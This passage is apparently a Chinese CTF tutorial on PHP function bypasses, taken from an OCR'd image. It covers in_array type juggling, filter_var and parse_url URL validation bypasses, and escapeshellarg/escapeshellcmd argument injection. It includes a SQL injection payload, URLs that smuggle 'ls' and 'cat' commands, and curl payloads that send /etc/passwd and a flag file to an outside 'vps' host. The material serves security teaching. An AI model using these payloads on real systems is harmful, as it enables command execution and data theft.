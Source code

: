 功能 ：检查数组中是否存在某个值

定义 ： bool in_array ( mixed $needle , array $haystack [, bool $strict = FALSE ] )

在 $haystack 中搜索 $needle ，如果第三个参数 $strict 的值为 TRUE ，则 in_array() 函数会进行强检查，检查 $needle 的类型是否和 $haystack 中的相同。如果找到 $haystack ，则返回 TRUE，否则返回 FALSE。

**案例**：判断 in_array(id，array(1,2,3,4)) // $strict未设置，以下payload默认强转为4，符合过滤条件，绕过
ID = 4 and (select updatexml(1,make_set(3,'~',(select flag from flag)),1))

## **filter_var ： (PHP 5 >= 5.2.0, PHP 7)**
功能 ：使用特定的过滤器过滤一个变量,如果成功，则返回已过滤的数据，如果失败，则返回 false。

定义 ：mixed filter_var ( mixed $variable [, int $filter = FILTER_DEFAULT [, mixed $options ]] ) 所以让我们先来绕过 filter_var 的 FILTER_VALIDATE_URL 过滤器，这里提供几个绕过方法，如下：

* http://localhost/index.php?url=http://demo.com@sec-redclub.com
* http://localhost/index.php?url=http://demo.com&sec-redclub.com
* http://localhost/index.php?url=http://demo.com?sec-redclub.com
* http://localhost/index.php?url=http://demo.com/sec-redclub.com
* http://localhost/index.php?url=demo://demo.com,sec-redclub.com
* http://localhost/index.php?url=demo://demo.com:80;sec-redclub.com:80/
* http://localhost/index.php?url=http://demo.com#sec-redclub.com

PS:最后一个payload的#符号，请换成对应的url编码 %23

接着要绕过 **parse_url 函数**，并且满足 $site_info['host'] 的值以 sec-redclub.com 结尾，payload如下：

http://localhost/index.php?url=demo://%22;ls;%23;sec-redclub.com:80/

当我们直接用 cat f1agi3hEre.php 命令的时候，过不了 filter_var 函数检测，因为包含空格，具体payload如下：

http://localhost/index.php?url=demo://%22;cat%20f1agi3hEre.php;%23;sec-redclub.com:80/

所以我们可以换成 cat<f1agi3hEre.php 命令，即可成功获取flag

## **escapeshellarg 和 escapeshellcmd**
escapeshellarg ，将给字符串增加一个单引号并且能引用或者转码任何已经存在的单引号。,<br>escapeshellcmd ，会对以下的字符进行转义&#;|*?~<>^()[]{}$, x0A 和 xFF, ' 和 "仅在不配对儿的时候被转义。

在字符串增加了引号同时会进行转义，那么之前的payload

http://127.0.0.1/index1.php?url=http://127.0.0.1' -T /etc/passwd

因为增加了 ' 进行了转义，所以整个字符串会被当成参数。注意 escapeshellcmd 的问题是在于如果 ' 和 " 仅在不配对儿的时候被转义。那么如果我们多增加一个 ' 就可以扰乱之前的转义了。如下：
```shell
http://127.0.0.1' -T /etc/passwd
http://baidu.com/' -F file=@/etc/passwd -x vps:9999
http://baidu.com/' -F file=@/var/www/html/flag.php -x vps:9999

传入的参数是
127.0.0.1' -v -d a=1
由于escapeshellarg先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用。所以处理之后的效果如下：
'127.0.0.1'\'' -v -d a=1'
接着 escapeshellcmd 函数对第二步处理后字符串中的 \ 以及 a=1' 中的单引号进行转义处理，结果如下所示：
'127.0.0.1'\\'' -v -d a=1\'
```
例题：
```php
<?php
highlight_file(__FILE__);
function waf($a){
    foreach($a as $key => $value){
        if(preg_match('/flag/i',$key)){
            exit('are you a hacker');
        }
    }
}
```